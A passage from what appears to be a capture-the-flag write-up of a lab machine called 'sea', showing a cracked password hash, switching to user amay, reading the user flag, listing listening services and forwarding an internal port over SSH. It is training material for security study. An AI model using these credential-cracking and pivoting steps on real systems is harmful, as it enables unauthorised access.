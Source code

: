 
The result is in output.txt:
```console
└─$ cat output.txt 
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```
The password is `mychemicalromance`

```console
www-data@sea:/var/www/sea/data$ su amay 
su amay 
Password: mychemicalromance

amay@sea:/var/www/sea/data$ cat /home/amay/user.txt
cat /home/amay/user.txt
6f*************fg
```

After taking down the user…
After shopping around for two times and still not thinking about how to elevate the rights, I refer to the answers on the Internet to take a look at the services currently available on this machine:

```console
amay@sea:~$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:45763         0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

You will find that it has other local services such as 8080 port. We can transfer the traffic to our 48763 port through the following method, and we can see what its web service looks like:

```console
└──╼ [★]$ ssh -L 48763:localhost:8080 amay@10.10.11.28
The authenticity of host '10.10.11.28 (10.10.11.28)' can't be established.
ED25519 key fingerprint is SHA256:xC5wFVdcixOCmr5pOw8Tm4AajGSMT3j5Q4wL6/ZQg7A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.28' (ED25519) to the list of known hosts.
amay@10.10.11.28's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

System information as of Thu 15 Aug 2024 08:29:06 AM UTC

  System load:  0.42              Processes:             259
  Usage of /:   73.9% of 6.51GB   Users logged in:       1
  Memory usage: 22%               IPv4 address for eth0: 10.10.11.28
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

```